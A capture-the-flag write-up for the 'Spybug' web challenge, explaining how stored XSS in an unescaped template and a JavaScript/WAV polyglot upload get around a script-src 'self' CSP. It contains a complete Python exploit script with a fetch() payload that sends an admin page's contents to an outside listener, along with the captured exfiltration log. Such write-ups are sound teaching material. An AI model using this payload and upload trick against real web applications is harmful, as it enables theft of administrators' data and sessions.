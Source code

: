 # [Web - medium] Spybug

This webapp is an API written in JS, allowing agents (an agent is a tuple (hostname,platform,arch)) to register themselves, and upload WAV sounds to the `/uploads` folder. There is also a bot loggin in as admin every minute and checking the main dashboard which displays agent information.

The admin username contains the flag and is displayed in the dashboard as welcome message.

This challenge is about exploiting 2 vulnerabilities:

- the agent information is displayed as-is in the dashboard: it is vulnerable to XSS, which will be triggered by the admin bot every minute. However the webapp is using CSP (Content Security Policy) with `script-src 'self'`: the XSS must only include local file scripts. That's where the second vulnerability will be useful
```
				tbody
					each agent in agents
						tr
							td= agent.identifier
							td !{agent.hostname}
							td !{agent.platform}
							td !{agent.arch}
```
```js
application.use((req, res, next) => {
  res.setHeader("Content-Security-Policy", "script-src 'self'; frame-ancestors 'none'; object-src 'none'; base-uri 'none';");
```
- the uploaded WAV sounds in `/uploads` can be anything, as long as:
  - the uploaded file contains (anywhere in the file) the WAV magic bytes
  - the content type is `audio/wave`
  - the filename ends with `.wav`
```js
const multerUpload = multer({
  storage: storage,
  fileFilter: (req, file, cb) => {
    if (
      file.mimetype === "audio/wave" &&
      path.extname(file.originalname) === ".wav"
[...]
router.post(
  "/agents/upload/:identifier/:token",
  authAgent,
  multerUpload.single("recording"),
  async (req, res) => {
    if (!req.file) return res.sendStatus(409);
    const filepath = path.join("./uploads/", req.file.filename);
    const buffer = fs.readFileSync(filepath).toString("hex");
    if (!buffer.match(/52494646[a-z0-9]{8}57415645/g)) {
        fs.unlinkSync(filepath);
      return res.sendStatus(400);
    }
    await createRecording(req.params.identifier, req.file.filename);
    res.send(req.file.filename);
```
The path to victory is to:

- register a new agent, get its `uuid`
- upload the agent WAV file using that `uuid`. The WAV file will be in fact a Javascript script exfiltrating (using `fetch()`) the content of the admin dashboard, but meets all the upload requirements. The most difficult is that the file must contain the WAV magic bytes `/52494646[a-z0-9]{8}57415645/g`. It can be anywhere in the file, so at the end of the Javascript file as comment is fine.
- update the agent information, so that the `hostname` is the XSS including the uploaded file
- use a HTTP listener to get the exfiltrated page content

The final script is:

```python
import requests
import json

endpoint = "http://68.183.37.122:30812"

s = requests.Session()
response = s.get(endpoint + '/agents/register')
agent = json.loads(response.text)
print(agent)
identifier = agent['identifier']
token = agent['token']

js_payload = "fetch('http://1.2.3.4:4444/exfil' + '?' + document.body.textContent);//"
files={'recording': ('aaa.wav', js_payload.encode('utf8') + bytearray.fromhex('52494646aaaaaaaa57415645'), 'audio/wave')}
response = s.post(endpoint + '/agents/upload/{}/{}'.format(identifier, token), files=files)
javascript = response.text

details = {
    'hostname': "<script src='/uploads/{}'></script>".format(javascript),
    'platform': "bbb",
    'arch': 'bbb'
}

response = s.post(endpoint + '/agents/details/{}/{}'.format(identifier, token), json = details)
print(response.text)
```

And its output:

```bash
$ python lol.py
{'identifier': 'aa9cbafb-16c9-4426-8720-40964e6449fa', 'token': '51ac9a77-cc46-416c-863b-f752c442e6d5'}
OK
```

And waiting for our XSS callback from the admin bot:

```bash
pi@raspberrypi:/tmp/lol $ python -m http.server 4444
Serving HTTP on 0.0.0.0 port 4444 (http://0.0.0.0:4444/) ...
68.183.37.122 - - [25/Mar/2023 07:41:38] code 404, message File not found
68.183.37.122 - - [25/Mar/2023 07:41:38] "GET /exfil?%C2%A0Spybug%20v1Log-outWelcome%20back%20HTB{p01yg10t5_4nd_35p10n4g3}%C2%A0AgentsIDHostnamePlatformArchaa9cbafb-16c9-4426-8720-40964e6449fa HTTP/1.1" 404 -
```
